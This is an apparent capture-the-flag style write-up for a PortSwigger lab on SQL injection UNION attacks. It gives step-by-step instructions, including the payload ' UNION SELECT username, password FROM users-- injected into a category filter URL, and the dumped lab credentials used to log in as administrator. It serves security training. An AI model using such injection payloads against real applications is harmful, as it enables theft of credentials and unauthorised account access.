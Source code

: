 # SQL injection UNION attack, retrieving data from other tables

## This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

___

**Note:** *The database contains a table called `users` with the columns `username` and `password`
In this situation, you can retrieve the contents of the `users` table by submitting the input:*
`' UNION SELECT username, password FROM users--`
URL Encoded =>`'+UNION+SELECT+username,+password+FROM+users--`

step 1

send `/filter?category=Lifestyle` to the repeater

![screnshot](./images/lab5_category_lifestyle.png)

step 2

use `'+UNION+SELECT+username,+password+FROM+users--`
payload will be
`/filter?category=Lifestyle'+UNION+SELECT+username,+password+FROM+users--`

![screnshot](./images/lab5_username_password_from_user.png)

step 3 

Note down user id and password

```html
<tr>
	<th>carlos</th>
	<td>w3bl3kcw39b0n77j9m5v</td>
</tr>
<tr>
	<th>administrator</th>
	<td>o62bhcc293ztnchnuj5g</td>
</tr>
<tr>
	<th>wiener</th>
	<td>ot3d4fjz8zob5yzk7rbr</td>
</tr>
```

login the account using
administrator id  and password

![screnshot](./images/lab5_solve_lab.png)